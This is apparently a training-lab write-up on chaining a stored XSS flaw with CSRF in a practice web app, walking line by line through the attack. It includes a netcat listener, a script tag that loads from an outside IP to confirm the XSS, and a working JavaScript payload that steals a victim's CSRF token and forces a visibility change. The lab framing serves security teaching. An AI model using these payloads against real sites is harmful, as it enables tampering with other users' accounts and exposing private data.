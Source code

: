 # XSS & CSRF Chaining
Sometimes, even if we manage to bypass CSRF protections, we may not be able to create cross-site requests due to some sort of same origin/same site restriction. If this is the case, we can try chaining vulnerabilities to get the end result of CSRF.

We will leverage the stored XSS vulnerability to issue a state-changing request against the web application. A request through XSS will bypass any same origin/same site protection since it will derive from the same domain!

We can first check if the fields are vulnerable to XSS that will request a file:

First by starting a listener:
```bash
nc -nvlp 9001
```

Then submitting the following payload:
```javascript
<script src=http://10.10.15.243:9001/TelephoneField></script>
```

Once we save it, then go the page that will bring up the payload, if we get a request sent for 'TelephoneField', we know it is vulnerable.
## Example
Let us target the _Change Visibility_ request because a successful CSRF attack targeting _Change Visibility_ can cause the disclosure of a private profile. (From private to public)
### Payload
Let us focus on the payload we should specify in the _Country_ field (XSS vulnerable field) of Ela Stienen's profile to successfully execute a CSRF attack that will change the victim's visibility settings (From private to public and vice versa):
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```
- Firstly we put the entire script in `<script>` tags, so it gets executed as valid JavaScript.

```javascript
var req = new XMLHttpRequest();
```
- The script snippet above creates an ObjectVariable called _req_, which we will be using to generate a request. _var req = new XMLHttpRequest();_ is allowing us to get ready to send HTTP requests.

```javascript
req.onload = handleResponse;
```
- The _onload_ event handler, which will perform an action once the page has been loaded. This action will be related to the _handleResponse_ function that we will define later.

```javascript
req.open('get','/app/change-visibility',true);
```
- We pass three arguments. _get_ which is the request method, the targeted path _/app/change-visibility_ and then _true_ which will continue the execution.

```javascript
req.send();
```
- Sends everything we constructed in the HTTP request.

```javascript
function handleResponse(d) {
    ...
};
```
- The script snippet above defines a function called _handleResponse_.

```javascript
var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
```
- Defines a variable called _token_, which gets the value of _responseText_ from the page we specified earlier in our request. 
- `/name="csrf" type="hidden" value="(\w+)"/)[1];` looks for a hidden input field called _csrf_ and \w+ matches one or more alphanumeric characters.

In some cases, this may be different, so let us look at how you can identify the name of a hidden value or check if it is actually "CSRF".
- Open Developer Tools, navigate to the Inspector, and *search* for `csrf`

```javascript
var changeReq = new XMLHttpRequest();
   ...
```
- The script snippet above constructs the HTTP request that we will send through a [XMLHttpRequest](https://blog.0daylabs.com/2014/09/13/ajax-everything-you-should-know-about-xmlhttprequest/) object.

```javascript
changeReq.open('post', '/app/change-visibility', true);
```
- We change the method from GET to POST.

```javascript
changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
```
- The script snippet above is setting the Content-Type to _application/x-www-form-urlencoded_.

```javascript
changeReq.send('csrf='+token+'&action=change');
```
- Sends the request with one param called _csrf_ having the value of the _token_ variable, which is essentially the victim's CSRF token, and another parameter called _action_ with the value _change_. 
- These are the two parameters that we noticed while inspecting the targeted request through Burp.
### Execution
First, submit the full payload to the _Country_ field (XSS vulnerable field) of Ela Stienen's profile and click "Save".

Open a `New Private Window`, navigate to `http://minilab.htb.net` again and log in to the application.
- This is a user that has its profile "private." No "Share" functionality exists.

Open a new tab and browse Ela Stienen's public profile by navigating to the link below.
`http://minilab.htb.net/profile?email=ela.stienen@example.com`

Now, if you go back to the victim's usual profile page and refresh/reload the page, you should see that his profile became "public".

# NOTE!
Same Origin Policy cannot prevent an attacker from changing the visibility of other users profiles.